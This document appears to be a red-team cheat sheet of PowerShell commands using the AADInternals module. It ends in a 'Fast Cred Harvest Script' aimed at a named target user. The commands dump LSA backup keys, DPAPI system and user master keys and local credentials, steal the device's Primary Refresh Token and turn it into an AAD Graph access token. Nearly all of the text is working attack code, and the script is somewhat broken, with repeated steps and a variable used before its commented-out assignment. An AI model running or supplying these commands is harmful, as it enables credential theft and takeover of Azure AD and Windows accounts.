 
### AADInternals - Get Local Creds, may fail as normnal user
```powershell
# Get the LSA backup keys
$lsabk_keys=Get-AADIntLSABackupKeys
# Save the private key to a variable
$rsa_key=$lsabk_keys | where name -eq RSA
# Get user's master keys
$user_masterkeys=Get-AADIntUserMasterkeys -UserName $user -SID $SID -SystemKey $rsa_key.key
# List user's credentials
Get-AADIntLocalUserCredentials -UserName $user -MasterKeys $user_masterkeys
```


### AADInternals - Get the PRToken from current device
 ```powershell
 $prtToken = Get-AADIntUserPRTToken
```

### AADInternals - Get an access token for AAD Graph API and save to cache
```powershell
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```


### Fast Cred Harvest Script 
```powershell
# Create an empty hashtable to store output
$user = 'targettimf@shrine.cloud'
 $SID = 'S-1-5-xxxx'
 $output = @{}
# # Hybrid Machine LSA Dump with AADInternals
# $output.LSASecrets = Get-AADIntLSASecrets
# # Get LSA backup keys
  $output.LSABackupKeys = Get-AADIntLSABackupKeys
# Get System Master Keys using LSA Backup
# Get the LSA backup keys
# $lsabk_keys = Get-AADIntLSABackupKeys
# # Save the private key to a variable
 $rsa_key = $lsabk_keys | where name -eq RSA
 # # Get system master keys
 $output.SystemMasterkeys = Get-AADIntSystemMasterkeys -SystemKey $rsa_key.key
 # # Get User Master Keys using LSA Backup
 # # Get the LSA backup keys
 $lsabk_keys = Get-AADIntLSABackupKeys
 # # Save the private key to a variable
 $rsa_key = $lsabk_keys | where name -eq RSA
 # # Get user's master keys
 $output.UserMasterkeys = Get-AADIntUserMasterkeys -UserName $user -SID $SID -SystemKey        $rsa_key.key
 # Get the PRToken from current device
 $prtToken = Get-AADIntUserPRTToken
 # Get an access token for AAD Graph API and save to cache
 $output.AccessTokenForAADGraph = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
 # Get Local Creds, may fail as normal user
 # Get the LSA backup keys
 $lsabk_keys = Get-AADIntLSABackupKeys
 # Save the private key to a variable
 $rsa_key = $lsabk_keys | where name -eq RSA
 # Get user's master keys
 $user_masterkeys = Get-AADIntUserMasterkeys -UserName $user -SID $SID -SystemKey $rsa_key.key
 # List user's credentials
```